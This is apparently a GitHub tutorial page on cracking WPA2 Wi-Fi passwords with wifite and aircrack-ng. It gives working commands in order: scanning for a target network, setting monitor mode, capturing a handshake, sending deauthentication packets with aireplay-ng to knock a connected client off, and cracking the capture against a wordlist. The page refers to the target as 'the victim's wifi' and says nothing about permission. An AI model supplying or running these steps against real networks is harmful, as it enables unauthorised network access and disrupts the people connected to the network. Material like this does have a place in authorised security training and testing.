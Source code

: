 ***Before Doing This You should checkout /Basics%wireless***

# **Wifi Hacking**
1. [Using Wifite](using-wifite)
2. [Using Aircrack-ng](using-Aircrack-ng)




### **Using wifite**(easyest)

### ***Requirements***
 - [`linux`]()
 - [`wifite`]()

### **Steps**

```
wifite

```

### **POC**

![wifite](https://github.com/aruncs31s/ethical-hacking/blob/main/video/wifite.gif?raw=true)

### **Using Aircrack-ng**


#### Steps With Example
***In this Example i am going to crack the password of a wifi Access point with the name "318 2.4GHz***

#### Tools Used

```
aircrack-ng ip iw 

```


#### Steps

1. **Get the `bssid` of the target : there are multiple methods to obtain bssid and channel** 

##### **Method 1 Using iwlist**

- Open a terminal and type the following command
*You can use the following commands to obtain the bssid*
```
iwlist wlan0 scan
```
*replace the wlan0 with the wireless interface name of the one you have it maybe wlan1 if you are using a external adapter that support packet injection*

<details>

<summary> Find the interface Name ? </summary>

1. Open your terminal 
2. type `ifconfig` 
    or if you dont have ifconfig use `ip a`

</details>

![ifconfig](img/ifconfig.png)

*you can see mine is wlan0*

![ip a](./img/ip_a.png)

</details>

![iwlist wlan0](./img/iwlist_info.png)

 You can see some usefull informations like
`bssid` `essid` `channel` etc

To Crack the password we only need `channel` , `bssid` and that is 

bssid = `AE:09:74:80:CC:3E`
channe = `1`

##### **Method 2 using airodump-ng**

1. Open a terminal and type `sudo airodump-ng wlan0`

```
sudo airodump-ng wlan0
```

after running the the command you will get the following output

```
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

AE:09:74:80:CC:3E  -59       91        0    0   1  180   WPA2 CCMP   PSK  318 2.4GHz  

```



*again replace the wlan0 with your wifi interface name*

![](./img/airodum-ng_scan.png?raw=true)

We can see see that we have obtained the follwing information that we whanted

bssid   = `AE:09:74:80:CC:3E`
channel = `1`

<details>
<summary>Warning: </summary>
***You should always remember we are attacking the network named `318 2.4GHz` and that name is its `essid`

```

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

AE:09:74:80:CC:3E  -59       91        0    0   1  180   WPA2 CCMP   PSK  318 2.4GHz  

```

***the `essid` is shown at the end make sure it matches the victim's wifi name***
</details>


2. **Change You wifi card's mode from managed to monitor**

- Now stop the airodum-ng's proccess by pressing `CTRL+C`(Keyboard interrupt)
- type 

```
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

<details>
<summary>Explenation</summary>

</details>


3. **Make New directory to store `.cap` file**

for example

```
mkdir 318_capfiles
```
*you can also store the files in an existing directory but that will make a mess*


4. **Again run the airodump-ng to listen to that target** 

- type the following in you terminal

```
sudo airodump-ng -c 1--bssid AE:09:74:80:CC:3E -w /home/aruncs/Desktop/318_capfiles wlan0
```

***Change the directry name to you need to store the .cap file***

![](./img/working_dir.png?raw=true)


- after typing the command you can see a similar output like in following

![](./img/airodump_listen.png?raw=true)


*you will notice that the output is similar to that of the previous on whe we ran `sudo airodump-ng wlan0`*


5. In this stage we have to capture a hand shake
*In order to capture that some one should be alredy connected to that network*

- we waite for some one to connect
- if someone is alredy connected the we can obtain the following thing

![](./img/airodump-station.png?raw=true)

We can see that the above scree shot contains a new set of details and one of them is the `station`

station = `2C:57:31:4F:DE:E6`


6. Use aireplay-ng to send deauth requests

- open up a new terminal and type the following

```

sudo aireplay-ng -0 10 -a AE:09:74:80:CC:3E -c 2C:57:31:4F:DE:E6 wlan0

```
![](./img/deauth.png?raw=true)


- after running the aireplay-ng we will be able to capture a handshake 

![](./img/handshake.png?raw=true)

![](./img/cap_files.png?raw=true)

![](./img/capfile.png?raw=true)



7. Use the aircrack-ng to crack the captured file

- you should need a wordlist to do this step which can be obtained from [here](abc.com)


- stop the airodump-ng 


- type the following in your terminal 

```

sudo aircrack-ng -a2 -b AE:09:74:80:CC:3E -w /home/aruncs/Desktop/wordlist.txt /home/aruncs/Desktop/318_capfiles/*.cap 

```

- whoalah the password is cracked



![](./img/cracked.png?raw=true)






